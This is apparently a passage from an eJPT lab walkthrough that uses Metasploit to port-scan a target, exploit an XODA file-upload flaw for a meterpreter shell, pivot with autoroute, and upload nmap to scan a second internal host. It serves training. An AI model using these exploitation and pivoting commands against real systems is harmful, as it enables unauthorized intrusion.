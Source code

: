 service postgresql start && msfconsole -qworkspace -a Port\_scansearch portscanuse auxiliary/scanner/portscan/tcpset RHOSTS 192.41.167.3runcurl 192.41.167.3

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-f9bb00e236dcbcacb2dd85e5f4f8181ca1810f97%2Fimage-20230412220747788.png?alt=media" alt=""><figcaption></figcaption></figure>

* Exploitation

search xodause exploit/unix/webapp/xoda\_file\_uploadset RHOSTS 192.41.167.3set TARGETURI /run

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-be8eaadffd478211a6c3c787bbd54c2ffb0dd4e4%2Fimage-20230412221111369.png?alt=media" alt=""><figcaption></figcaption></figure>

* Perform a network scan on the second target

meterpreter > shell/bin/bash -iifconfig# 192.26.158.2 Local Lan subnet IPexit

* Add the route within `meterpreter` and background the meterpreter session

run autoroute -s 192.26.158.2backgroundsearch portscanuse auxiliary/scanner/portscan/tcpset RHOSTS 192.26.158.3run# the port scan will be performed through the first target system using the route\[+] 192.26.158.3: - 192.26.158.3:22 - TCP OPEN\[+] 192.26.158.3: - 192.26.158.3:21 - TCP OPEN\[+] 192.26.158.3: - 192.26.158.3:80 - TCP OPEN

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-67e7adb134ca47fb1df4ff6f49abb7370d8802a9%2Fimage-20230412221528898.png?alt=media" alt=""><figcaption></figcaption></figure>

* Upload and run `nmap` against the second target, from the first target machine

sessions 1upload /root/tools/static-binaries/nmap /tmp/nmapshell/bin/bash -icd /tmpchmod +x ./nmap./nmap -p- 192.26.158.321/tcp open ftp22/tcp open ssh80/tcp open http

> 📌 There are **`3`** running services on the second target machine.

**UDP Scan**

* Into `msfconsole`

search udp\_sweepuse auxiliary/scanner/discovery/udp\_sweepset RHOSTS 192.41.167.3run

#### ​[Services Enumeration](https://www.offsec.com/metasploit-unleashed/service-identification/)​ <a href="#services-enumeration" id="services-enumeration"></a>

> 📌🔬 Check the [Enumeration Section labs here](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration) for basic `nmap` enumeration.

Next, there are some MSF commands and modules for **service enumeration** on the same labs from the Enumeration Section.

* Auxiliary modules can be used for enumeration, brute-force attacks, etc

❗📝 **On every attacker machine, run this command to start `msfconsole`:**&#x73;ervice postgresql start && msfconsole -q

* Setup a **global variable**. This will set the RHOSTS option for all the modules utilized:

setg RHOSTS \<TARGET\_IP>

**​**[**FTP**](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/3-enumeration/ftp-enum)**​**

> **`auxiliary/scanner/ftp/ftp_version`**
